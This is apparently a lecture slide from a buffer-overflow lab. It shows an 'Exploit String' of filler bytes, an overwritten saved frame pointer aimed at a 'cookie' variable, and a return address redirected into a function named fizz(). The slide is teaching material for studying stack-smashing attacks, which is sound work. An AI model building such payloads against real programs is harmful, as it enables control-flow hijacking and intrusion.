

# Exploit String
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
00 11 22 33 44 55 66 77 88 99
60 c2 04 08 /* %EBP = &cookie - 0x08 = 0x804c268 - 0x8 */
8e 8b 04 08 /* instruction @ 0x8048b8e in fizz() */